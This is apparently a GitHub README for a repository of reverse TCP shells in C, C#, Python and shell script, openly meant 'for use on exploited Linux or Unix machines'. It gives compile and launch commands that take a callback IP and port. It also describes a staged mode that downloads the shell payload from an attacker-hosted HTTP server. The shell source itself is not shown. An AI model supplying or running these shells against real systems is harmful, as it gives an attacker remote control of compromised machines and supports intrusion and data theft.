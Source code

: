 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell
  If dotnet is installed on the system you may use the C# program
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
    
  # If you wish to run a staged shell you must first host the "reverse_tcp.py" payload on a HTTP server and you must configure its default callback address
  
  to call a staged shell run the following command:
  
    python3 reverse_tcp_staged.py http://[HTTPSERVER]/[route to reverse_tcp.py]
  
# Shell Script Reverse Shell
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
